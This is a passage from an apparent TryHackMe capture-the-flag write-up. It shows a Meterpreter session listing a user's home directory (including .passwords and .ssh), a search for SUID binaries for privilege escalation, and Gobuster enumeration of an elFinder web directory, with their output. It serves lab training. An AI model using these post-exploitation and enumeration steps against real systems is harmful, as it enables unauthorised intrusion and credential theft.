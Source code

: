 ```
Mode              Size  Type  Last modified              Name  
----              ----  ----  -------------              ----  
020666/rw-rw-rw-  0     cha   2024-11-23 19:41:30 +0000  .bash_history  
100755/rwxr-xr-x  220   fil   2023-06-02 11:51:34 +0100  .bash_logout  
100755/rwxr-xr-x  3771  fil   2023-06-02 11:51:34 +0100  .bashrc  
040755/rwxr-xr-x  4096  dir   2023-06-21 18:49:21 +0100  .cache  
040700/rwx------  4096  dir   2023-08-09 12:11:19 +0100  .gnupg  
100640/rw-r-----  525   fil   2023-07-30 20:45:53 +0100  .passwords  
100755/rwxr-xr-x  807   fil   2023-06-02 11:51:34 +0100  .profile  
040640/rw-r-----  4096  dir   2023-06-21 12:08:48 +0100  .ssh  
020666/rw-rw-rw-  0     cha   2024-11-23 19:41:30 +0000  .viminfo  
100640/rw-r-----  33    fil   2023-07-30 22:45:28 +0100  user.txt  
  
meterpreter > cat user.txt  
[-] core_channel_open: Operation failed: 1  
  
meterpreter > cd /var/www/files.lookup.thm/public_html/elFinder/php  

meterpreter > find / -perm -u=s -type f 2>/dev/null  
...  
/snap/core20/1974/usr/lib/openssh/ssh-keysign  
/usr/lib/policykit-1/polkit-agent-helper-1  
/usr/lib/openssh/ssh-keysign  
/usr/lib/eject/dmcrypt-get-device  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/sbin/pwm  
...
```

![](https://miro.medium.com/v2/resize:fit:875/1*UHXMaH-azCa3bfBEJR1Kpg.png)

![](https://miro.medium.com/v2/resize:fit:875/1*Ql5Ihms1Xykl439mz_UApQ.png)

![](https://miro.medium.com/v2/resize:fit:875/1*9sSuTWXoXSkXIU7xAqtyzw.png)

**Gobuster**

root@ip-[THM AttackBox]:~/lookup# gobuster dir -u 'http://files.lookup.thm/elFinder/' -w /usr/share/wordlists/dirb/common.txt -t 200  
===============================================================  
Gobuster v3.6  
```
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)  
===============================================================  
[+] Url: http://files.lookup.thm/elFinder/  
[+] Method: GET  
[+] Threads: 200  
[+] Wordlist: /usr/share/wordlists/dirb/common.txt  
[+] Negative Status codes: 404  
[+] User Agent: gobuster/3.6  
[+] Timeout: 10s  
```
===============================================================  
```
Starting gobuster in directory enumeration mode  
===============================================================  
/css (Status: 301) [Size: 327] [ → http://files.lookup.thm/elFinder/css/]  
/files (Status: 301) [Size: 329] [ → http://files.lookup.thm/elFinder/files/]  
/img (Status: 301) [Size: 327] [ → http://files.lookup.thm/elFinder/img/]  
/js (Status: 301) [Size: 326] [ → http://files.lookup.thm/elFinder/js/]  
/php (Status: 301) [Size: 327] [ → http://files.lookup.thm/elFinder/php/]  
/sounds (Status: 301) [Size: 330] [ → http://files.lookup.thm/elFinder/sounds/]  
/.hta (Status: 403) [Size: 281]  
/.htaccess (Status: 403) [Size: 281]  
```